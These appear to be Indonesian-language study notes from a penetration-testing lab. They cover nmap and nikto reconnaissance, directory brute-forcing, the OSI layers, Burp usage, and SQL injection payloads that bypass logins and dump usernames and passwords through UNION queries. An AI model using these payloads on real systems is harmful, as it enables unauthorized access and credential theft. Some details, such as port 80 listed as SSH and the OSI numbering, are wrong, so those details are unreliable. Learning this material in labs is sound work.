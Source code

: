 NSLOOKUP - buat tau ip dari URL
![[Pasted image 20230626093929.png]]

Tools-tools yang biasa digunakan itu taunya berdasarkan IP, jadi step 1 kita harus tau ip nya dlu

![[Pasted image 20230626095106.png]]

DNSMapper -> Mencari subdomain dari ip config biar kita bisa dapet ip nya
Ping -> Kirim package
HPing3 -> Ping yang ngirim port bersama package
nmap (Network mapper) -> Mencari map yang di sekitar

`nmap -T4 [HOST]/24`
`nmap -T4 -sV 10.22.121.102`
-sV Version
zenmap -> nmap versi klik klik

21 FTP
80 SSH
443 HTTPS

`nmap -T4 -sV -p- 192.168.153.129`

192.168.153.129

versi apache rendah mungkin vulnerable

`nmap -T4 -sV -O --osscan-guess 192.168.153.129`

nanti di nikto biar ketemu vulnerability and pagenya buka /admin/login

buka dirbuster

ganti linknya, masukkin wordlistnya ganti extensionnya,
wordlist pathnya /usr/share/dirbuster/wordlists/medium

Kenapa pilih 13313 karena itu http kayak web gitu bentuknya analisa

php, xlsx, csv


### OSI LAYER
1. Application Layer
2. Presentation Layer
3. Session Layer
4. Transport Layer
5. Network Layer
6. Data Link Layer
7. Physical Layer

Physical Layer - Pilih courrier
Data Link Layer - Switch - Pilih ukuran package (Perantara / perpanjangan dari router)
Network Layer - IP tujuan 
Transport Layer - Bekerja menghandle port 
TCP / UDP
TCP itu kayak harus tau udah sampe apa belum, di handle with care
UDP itu lempar aja ga harus tau udah sampe, contoh (kayak youtube buffering gitu kan yauda dilempar aja)
Session Layer - Kontrol apakah session/koneksi ini bisa dilanjutin apa engga? (kayak bisa liat si kurir lagi apa)
Presentation Layer - 
Application Layer - Nampilin websitenya


SQLI Bypass
' OR 1 = 1 LIMIT 0,1 #

Union Based SQL
0' UNION SELECT 1, Username, 3, 4, Password FROM SunShineHotel -- -

0' UNION SELECT 1, GROUP_CONCAT(DISTINCT TABLE_NAME SEPARATOR '|'), 3, 4, GROUP_CONCAT(DISTINCT COLUMN_NAME SEPARATOR '|') FROM information_schema.columns WHERE TABLE_SCHEMA=DATABASE()  -- -

cd 

![[Pasted image 20230626150545.png]]


send to intruder brute force
send to repeater kalo mau diulang terus menerus
